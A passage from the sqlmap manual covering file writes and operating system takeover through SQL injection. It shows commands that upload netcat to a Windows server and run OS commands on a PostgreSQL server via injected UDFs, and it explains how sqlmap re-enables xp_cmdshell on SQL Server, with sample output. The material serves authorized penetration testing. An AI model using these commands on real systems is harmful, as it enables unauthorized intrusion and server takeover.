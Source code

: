 `$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\`\
`-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1`

`[...]`\
`[hh:mm:29] [INFO] the back-end DBMS is MySQL`\
`web server operating system: Windows 2003 or 2008`\
`web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727`\
`back-end DBMS: MySQL >= 5.0.0`

`[...]`\
`do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success`\
`fully written on the back-end DBMS file system? [Y/n] y`\
`[hh:mm:52] [INFO] retrieved: 31744`\
`[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b`\
`ytes, same size as the local file '/software/nc.exe.packed'`

### Operating system takeover

#### Run arbitrary operating system command

Option and switch: `--os-cmd` and `--os-shell`\
It is possible to **run arbitrary commands on the database server's underlying operating system** when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses.\
On MySQL and PostgreSQL, sqlmap uploads (via the file upload functionality explained above) a shared library (binary file) containing two user-defined functions, `sys_exec()` and `sys_eval()`, then it creates these two functions on the database and calls one of them to execute the specified command, depending on user's choice to display the standard output or not. On Microsoft SQL Server, sqlmap abuses the `xp_cmdshell` stored procedure: if it is disabled (by default on Microsoft SQL Server >= 2005), sqlmap re-enables it; if it does not exist, sqlmap creates it from scratch.\
When the user requests the standard output, sqlmap uses one of the enumeration SQL injection techniques (blind, inband or error-based) to retrieve it. Vice versa, if the standard output is not required, stacked query SQL injection technique is used to execute the command.\
These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).\
Example against a PostgreSQL target:\
`$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\`\
`os-cmd id -v 1`

`[...]`\
`web application technology: PHP 5.2.6, Apache 2.2.9`\
`back-end DBMS: PostgreSQL`\
`[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system`\
`[hh:mm:12] [INFO] the back-end DBMS operating system is Linux`\
`[hh:mm:12] [INFO] testing if current user is DBA`\
`[hh:mm:12] [INFO] detecting back-end DBMS version from its banner`\
`[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist`\
`[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist`\
`[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file`\
`[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file`\
`do you want to retrieve the command standard output? [Y/n/a] y`\
`command standard output: 'uid=104(postgres) gid=106(postgres) groups=106(post`\
`gres)'`
